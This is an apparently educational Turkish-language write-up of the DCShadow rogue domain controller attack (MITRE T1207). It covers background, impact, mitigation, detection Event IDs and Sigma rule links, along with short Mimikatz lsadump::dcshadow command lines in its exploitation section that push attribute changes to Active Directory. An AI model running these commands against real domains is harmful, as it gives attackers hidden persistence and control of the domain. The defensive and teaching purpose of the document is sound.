





# TTP 0x8 - Rogue Domain Controller

| Metric  | Value  |
|---------|--------|
| Severity                      | `Critical` |
| Ease of Identification        | `N/A` |
| Ease of Mitigation            | `Hard` |
| Ease of Detection             | `Hard` |
| Ease of Deception             | `Easy` |
| MITRE ATT&CK Tactic           | `Defense Evasion` |
| MITRE ATT&CK Technique        | `Rogue Domain Controller` |
| MITRE ATT&CK Sub-Technique    | `N/A` |
| MITRE ATT&CK ID               | `T1207` |
| APT Groups                    | `N/A`|
| Target                        | `Kerberos Protocol` |
| Tools                         | `Mimikatz` |
| Privilege Before Exploitation | `Domain Admin` |
| Privilege After Exploitation  | `Domain Admin` |
| Version                       | 0.1 |
| Date                          | 22.02.2022 |

## Preliminary

Kerberos, güvenli olmayan ağlar üzerinde bilet (ticket) olarak adlandırılan veri paketlerini kullanarak kimlik doğrulama (authentication) işlemlerini gerçekleştiren bir protokoldür. UDP ve TCP protokollerini kullanmakta ve 88 numaralı port üzerinde çalışmaktadır.  

Active Directory altyapısı 

1.	KDC (Key Distribution Center): Kerberos protokolününde kimlik doğrulama, biletlerin üretilmesi ve doğrulanması gibi işlevleri gerçekleştiren servistir.

2.	İstemci (Client): Servise erişmek için kimlik doğrulama sürecini başlatan objedir.

3.	Uygulama (Application/Servis): İstemcinin kimlik doğrulama sonucunda erişmek istediği servistir.

### DCShadow

DCShadow Black Hat USA 2018 konferansında Benjamin Delpy tarafından sunulmuştur. DCShadow saldırısı DCSync saldırısına benzerlik göstermekte ve Domainde kalıcılık (Persistence) sağlama yöntemidir. Saldırganlar ele geçirdikleri hesaplar ile sahte Domain Controller gibi davranarak Active Directory nesneleri üzerindeki özniteliklerde (SIDHistory,BadPwdCount,SPN) değişiklik yapabilmektedir. Mimikatz aracı, yanlızca etki alanı denetleyicisinde kullanılan RPC gibi protokolleri tetikleyerek kullanıcılar üzerinde değişiklik yapabilmektedir. 

**Not:** DCShadow saldırısında DC'ye yapılan RPC istekler aşağıdaki Wireshark trafiğinde görüntülenmektedir.



## Description

DCShadow saldırısında Domain Admin yetkili bir hesap ile sahte Domain Controller oluşturarak Active Directoy nesneler üzerinde değişiklik yapılabilmektedir. Bu saldırı genellikle istismar sonrası kalıcılık yöntemi olarak Mimiktaz lsadump modülü ile kullanılmaktadır. DCShadow saldırı tespiti çok zor olduğu için gizli kalıcılık sağlanarak sistemde tam yetki sahibi olunabilmektedir. 

## Impact

Saldırgan sistem üzerinde krbtgt parola özetini kendi bildiği bir parolayla ya da diğer saldırı türlerini tetikleyebileceği özellikleri değiştirerek domain üzerinde hakimiyet sağlayabilmektedir.

## Exploitation

Saldırı senaryosu Domain Admin yetkisindeki bir kullanıcı ile gerçekleştirilmektedir. Bu senaryoda john Doe kullanıcısının description değeri değiştirmeye çalışmaktadır.

**Not:** İki farklı komut satırı açarak bu komut satırlarından birisi **NT AUTHORITY\SYSTEM** shell, diğeri ise **Domain Admin** yetkili kullanıcı shell ile yapılmaktadır. Shell yetkileri mimikatz token::whoami ile kontrol edilebilmektedir.

**Not:** 

```powershell
# Shell yetkisi kontrol etme
Mimikatz.exe "token::whoami"
```



NT AUTHORITY\SYSTEM shell ile açılan komut satırında mimikatz aracı çalıştırılmaktadır. Mimikatz komut satırına gerekli parametreleri verildikten sonra Domain Admin yetkili shell ile oluşturulan description değişikliği isteğini, mimikatz **/push** parametresi ile tetiklenmektedir.

**Not:** Mimikatz aracına gerekli parametreler verilerek çalıştırılmaktadır.

| Command | Description |
|---------|--------|
| `lsadump::dcshadow` | Saldırı parametresi |
| `/object` | Üzerinde değişiklik yapılacak nesne |
| `/domain` | Varsayılcan etki alanı |
| `/attribute` | Değiştirilecek AD nesne özntiteliği |
| `/value` | Değiştirilecek özniteliğe atanacak değer |
| `/push` | Değişiklikleri tetikleme |

```powershell
# DCShadow değişiklik isteği
Mimikatz.exe "lsadump::dcshadow /object:john.doe /attribute:description /value:9999"
```
```powershell
# DCShadow uygulama
Mimikatz.exe "lsadump::dcshadow /push"
```


Kullanıcı üzerinden değişmesini istediğimiz ayarın değişmiş olduğunu görüyoruz.



## Mitigation

1. Domain ortamındaki gerekli sıkılaştırma ayarları yapılmalıdır.

2. Kullanıcılara verilen yetkiler kontrol edilerek fazla yetki verilmiş kullanıcılarını yetkileri düşürülmelidir.

3. Domain Controller'a gelen ağ trafiği dinlenmeli. Bu ağ trafiği üzerinde Domain Controller'a RPC protokolü ile yapılan erişimler denetlenmelidir.
   
## Detection

DCShadow saldırısının farklı fazlarda tespiti için aşağıdaki Event ID bilgileri ve Sigma kuralları incelenmeli ve kurum bünyesinde tespit teknolojileri üzerinde uygulanmalıdır.

| Event Id  | Title | Description |
|---------|--------|--------|
| 4742 | `A computer account was changed.` | Bilgisayarlarda ServicePrincipalName attribute üzerindeki değişiklikler tespit edilebilmektedir. |
| 4662 | `An operation was performed on an object.` | Objelerin Attribute değerleri üzerinde yapılan okumalar tespit edilebilmektedir. | 
| 4929 | `An Active Directory replica source naming context was removed..` | Domain ortamında replika değişikliği işlemleri tespit edilebilmektedir. |


| Rule Id  | Title | TTP | Stage | Source | Event Id |
|---------|--------|--------|--------|--------|--------|
| 0x1 | [ServicePrincipalName modification on Computer Account](detection-rules/Rule%200x1%20-%20ServicePrincipalName%20modification%20on%20Computer%20Account.yaml) | `DCShadow` | `Persistence` | Security | 4742 |
| 0x2 | [Deletion of nTDSDSA](detection-rules/Rule%200x2%20-%20Deletion%20of%20nTDSDSA.yaml) | `DCShadow` | `Persistence` | Security | 4662 |
| 0x3 | [Creation of New Child](detection-rules/Rule%200x3%20-%20Creation%20of%20New%20Child.yaml) | `DCShadow` | `Persistence` | Security | 4662 |
| 0x4 | [Deletion of Server Class](detection-rules/Rule%200x4%20-%20Deletion%20of%20Server%20Class.yaml) | `DCShadow` | `Persistence` | Security | 4662 |

## References

- https://www.dcshadow.com/
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow
- https://blog.netwrix.com/2022/09/28/dcshadow_attack/
- https://www.netwrix.com/how_dcshadow_persistence_attack_works.html
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcshadow
- https://attack.mitre.org/techniques/T1207/
- https://blog.nviso.eu/2021/11/15/detecting-dcsync-and-dcshadow-network-traffic/
- https://medium.com/tenable-techblog/decrypt-encrypted-stub-data-in-wireshark-deb132c076e7
- https://clement.notin.org/blog/2022/09/29/decrypt-encrypted-stub-data-in-wireshark/
- https://adsecurity.org/?p=1729

## Authors

- Serdal Tarkan Altun